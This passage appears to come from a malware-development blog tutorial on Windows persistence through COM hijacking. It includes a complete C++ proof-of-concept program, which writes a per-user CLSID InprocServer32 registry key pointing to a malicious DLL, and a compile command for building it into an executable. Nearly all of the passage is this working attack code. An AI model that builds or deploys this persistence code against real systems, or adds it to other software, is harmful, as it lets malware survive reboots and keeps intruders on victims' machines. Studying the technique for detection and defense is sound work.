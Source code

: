 That's perfectly! :)

### update: programmer way

I also created `pers.cpp` dirty PoC script:

```cpp
/*
pers.cpp
windows low level persistence via 
COM hijacking
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/05/02/malware-pers-3.html
*/
#include <windows.h>
#include <string.h>
#include <cstdio>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // subkey
  const char* sk = 
  "Software\\Classes\\CLSID\\
  {A6FF50C0-56C0-71CA-5732-BED303A59628}\\InprocServer32";

  // malicious DLL
  const char* dll = 
  "C:\\Users\\User\\Desktop\\shared\\
  2022-05-02-malware-pers-3\\evil.dll";

  // startup
  LONG res = RegCreateKeyEx(HKEY_CURRENT_USER, 
  (LPCSTR)sk, 0, NULL, REG_OPTION_NON_VOLATILE, 
  KEY_WRITE | KEY_QUERY_VALUE, NULL, &hkey, NULL);
  if (res == ERROR_SUCCESS) {
    // create new registry keys
    RegSetValueEx(hkey, NULL, 0, REG_SZ, 
    (unsigned char*)dll, strlen(dll));
    RegCloseKey(hkey);
  } else {
    printf("cannot create subkey for hijacking :(\n");
    return -1;
  }
  return 0;
}
```

compile it:

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```
